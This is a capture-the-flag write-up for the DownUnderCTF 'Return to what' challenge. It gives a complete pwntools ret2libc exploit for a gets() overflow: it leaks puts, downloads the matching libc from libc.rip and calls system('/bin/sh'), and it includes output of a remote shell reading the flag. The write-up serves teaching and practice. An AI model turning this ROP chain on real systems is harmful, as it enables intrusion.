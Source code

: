 # DownUnderCTF

## Return to what

> 200
>
> Author: Faith
>
> This will show my friends!
>
> `nc chal.duc.tf 30003`
>
> Attached files:
>
>    * [return-to-what](return-to-what) (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

`gets`... again.  

This is the same as [_Shell this!_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/shellthis) sans the _win_ function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
void vuln(void)

{
  char local_38 [48];
  
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

`gets` vulnerability.  Easy ROP since no canary or PIE.  To get to the return address send `0x38` bytes (gotta love how Ghidra tells you that, i.e. `local_38`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./return-to-what')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.duc.tf', 30003)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x38 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('Where would you like to return to?\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```

Standard `puts` _putting_ itself out there.  With the `puts` location known we can find the version and base address of libc.  The last part of the payload jumps back to `vuln` for a second and final pass.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)
    
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[0]['download_url']` needs to be changed if the downloaded libc does not work, just increment the `[0]` until you get the right one.


### Get a shell, get the flag

```python
payload  = 0x38 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('Where would you like to return to?\n',payload)
p.interactive()
```

Pop a shell, get the flag.

> `p64(pop_rdi + 1)` fixes a stack [alignment issue](https://blog.binpang.me/2019/07/12/stack-alignment/), see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) for a lengthy example.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2020/return_to_what/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Loaded 14 cached gadgets for './return-to-what'
[*] puts: 0x7f47c1e5c9c0
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1_amd64.so
[*] '/pwd/datajerk/downunderctf2020/return_to_what/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f47c1ddc000
[*] Switching to interactive mode
$ id
uid=1000 gid=999 groups=999
$ ls -l
total 24
-rw-r--r-- 1 65534 65534    38 Sep  4 04:31 flag.txt
-rwxr-xr-x 1 65534 65534 16664 Sep  4 04:31 return-to-what
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```